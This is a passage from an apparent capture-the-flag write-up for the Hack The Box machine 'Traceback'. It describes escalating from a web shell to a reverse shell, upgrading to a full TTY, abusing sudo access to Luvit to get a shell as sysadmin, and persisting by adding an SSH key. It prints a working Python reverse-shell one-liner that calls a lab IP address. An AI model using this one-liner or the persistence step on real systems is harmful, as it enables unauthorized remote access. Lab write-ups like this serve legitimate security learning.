To fix this (the easy way), I chose to migrate to a regular ncat reverse shell and then upgrade to a full TTY from there. The easiest way to do this is with python3, which is present on the server. Start an `ncat` listener to catch it then execute the following:
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
This should give us a shell under the same privileges that we currently have. However, it *doesn't* give us a full TTY. Let's fix that. [This ropnop blog post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) shows how to upgrade - my version is below.

![Upgrading to a full TTY](/assets/images/traceback/tty_upgraded.png)

Now that we're upgraded, the fun begins. Re-visiting our discovery from `sudo -l`, we execute `sudo -u sysadmin /home/sysadmin/luvit` - this drops us into a Luvit instance running on the box *as sysadmin*. That's fantastic, but how do we use this to our advantage? Let's check out the text file we found in the home directory:

>--sysadmin--  
I have left a tool to practice Lua.  
I'm sure you know where to find it.  
Contact me if you have any question.

It seems that this is a note from sysadmin to us, letting us know that they've enabled a tool to practice Lua. Coupled with some Googling, we confirm that Luvit is able to run Lua code snippets just like the native Python interpreter allows us to. Let's break out of this jail and get a shell as `sysadmin`!

As with python, Lua allows for native execution - Google shows us that the command to do so is `os.execute()`. To make life easy, I just crammed [pentestmonkey's reverse python shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) into `os.execute()` with my HTB IP address and port changed within it. This nets us a shell as `sysadmin`; to persist (and have a more stable shell!), I added a newly-generated SSH key to `/home/sysadmin/.ssh/authorized_keys` and then SSH'd into the box.

## >> BECOMING THE (SERVER) BOSS - SYSADMIN TO ROOT

To recap what we've accomplished thus far, we've:

* Found a web shell on the server
* Used the web shell to execute a reverse shell
* Used the reverse shell to get a full TTY
* Used access the `webadmin` user had to Luvit to create a reverse shell as `sysadmin`

